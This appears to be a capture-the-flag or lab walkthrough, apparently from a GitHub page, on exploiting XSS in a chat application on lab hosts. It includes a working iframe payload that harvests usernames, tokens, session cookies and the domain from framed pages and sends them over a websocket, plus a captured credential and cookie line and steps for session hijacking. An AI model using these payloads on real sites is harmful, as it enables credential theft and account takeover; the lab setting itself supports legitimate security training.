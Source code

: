 
### Find all the active and idle users on the chat and steal other users' credentials

Login on powerplant.site, open the chat page and send the message below.

```html
<img src=1 onerror="alert(1)">
```

The chat is vulnerable to XSS.

To leak other user credentials open the popular.site management page.

```
http://popular.site/management/
```

Add the follow code to open a iFrame with the chat and confirm.

```html
<iframe src="http://helpandsupport.site/chat.php"></iframe>
```

Now every person that visits the popular.site will open the chat page.

Open the chat page and send the payload below.

```html
<iframe onload="
for (var i=0; i<window.frames.length; i++) {
            frameURL = window.frames[i];
            var steal = '';
            steal += frameURL.document.getElementsByName('user')[0].value;
            steal += ':';
            steal += frameURL.document.getElementsByName('tk')[0].value;
            steal += ':';
            steal += document.cookie;
            steal += ':';
            steal += document.domain;            
            socket.send(steal);
        }
" src="http://helpandsupport.site/change_password.php"></iframe>
```

This code will open change_password and send to you thru websocket the user data. Besides your credentials you will receive the credentials from helpdesk52.

```
helpdesk52:4f9dda746814a966497d334ce7849c7960efac88459fbdc4c5715f477a0180a13f103020eb5af55bebcccc32b943bf07b63c5cb905b7f1deefb89c8b3a5b8165:PHPSESSID=i3fdmn42dfh9bpc2acivu372u4:helpandsupport.site
```

No you can inpersonate the helpdesk52 user by change your PHPSESSID cookie.

Also it is possible to change their password using the username and tk parameters.

✔ 1 Find all the active and idle users on the chat
✔ 2 Steal other users' credentials
✔ 3 Find the website used by other users to login to the chat
4 Run arbitrary commands on http://monitoring.site
